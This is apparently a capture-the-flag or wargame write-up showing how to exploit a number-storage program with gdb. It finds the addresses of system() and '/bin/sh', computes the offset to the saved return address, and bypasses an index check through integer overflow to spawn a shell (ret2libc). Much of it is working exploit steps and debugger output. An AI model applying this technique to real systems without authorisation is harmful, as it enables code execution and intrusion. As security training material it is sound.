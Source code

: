 If we run our program, we can see that we have only three commands for
store, read data and exit. Let's dive into gdb.
In the first part of the main function program will make kind of bzero for argv and envp.
Good thing—there is not any check for position to store and read data from except
the index can't be divisible by 3.
Our goal is to rewrite the return address of the main function to address of system function and pass address of /bin/sh as argument.
First of all - let's find the address of system function and /bin/sh string.
```gdb
(gdb) info function system
All functions matching regular expression "system":

Non-debugging symbols:
0xf7e6aed0  __libc_system
0xf7e6aed0  system
0xf7f48a50  svcerr_systemerr
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```
We can see that the address of the system function is `0xf7e6aed0` and address of /bin/sh is `0xf7f897ec`.

Let's find the address of buffer in memory. To do that, we can set breakpoint on store function and check the address of buffer.
Inside store function set a breakpoint and check ebp+0x8.
```gdb
Input command: store
 Number: 42
 Index: 1

Breakpoint 1, 0x080486c8 in store_number ()
(gdb) x /x $ebp+0x8
0xffffd400:	0xffffd424
```
Okay, we have address of buffer - `0xffffd424`. Now it's time to find the address of EIP.
Let's set breakpoint before store function and check the address of EIP.
```gdb
(gdb) b *0x080488ea
Breakpoint 1 at 0x80488ea
(gdb) r
...
(gdb) i f
Stack level 0, frame at 0xffffd5f0:
 eip = 0x80488ea in main; saved eip 0xf7e45513
 Arglist at 0xffffd5e8, args:
 Locals at 0xffffd5e8, Previous frame's sp is 0xffffd5f0
 Saved registers:
  ebx at 0xffffd5dc, ebp at 0xffffd5e8, esi at 0xffffd5e0, edi at 0xffffd5e4, eip at 0xffffd5ec
```
eip is 0xffffd5ec. Now we can calculate offset between buffer and EIP.
```python
0xffffd5ec - 0xffffd424
456
456 / 4
114.0
```
Offset is 114. Now we can start to exploit program.
We can't use 114 as index because it's divisible by 3. But we con overflow integer to pass this check.
```
( 4294967296 / 4 ) + 114 ) = 1073741938
```
So now we should store the address of system function (0xf7e6aed0 == 4159090384) to index 114 (1073741938) and
address of /bin/sh (0xf7f897ec == 4160264172) to index 116. After exit from the program, the next eip will be the address of system function.
Aaaand we're done.
